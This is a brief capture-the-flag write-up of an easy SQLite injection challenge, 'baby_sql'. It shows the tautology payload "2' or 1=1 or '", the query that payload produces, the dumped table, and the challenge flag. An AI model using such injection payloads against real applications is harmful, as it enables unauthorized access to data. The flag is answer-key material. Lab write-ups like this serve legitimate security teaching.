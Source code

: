# baby_sql
Web

## Challenge 

	Here is an easy SQL injection challenge.

	*Note: DB is SQLite

	http://challs.hats.sg:1350

	Flag format: HATS{.+}

	Challenge by: Gladiator

## Solution


Think of a typical SQL command as this

	SELECT * FROM table WHERE index = '$query';

so if we do this payload,

	2' or 1=1 or '

It becomes this

	SELECT * FROM table WHERE index = '2' or 1=1 or '';

And it selects everything

	--name-- | --description--
	Dog | Is an animal
	Salmon | Is a fish
	flag | HATS{easy_baby_sql_31333333337}
	MOOOO | MEW

## Flag

	HATS{easy_baby_sql_31333333337}
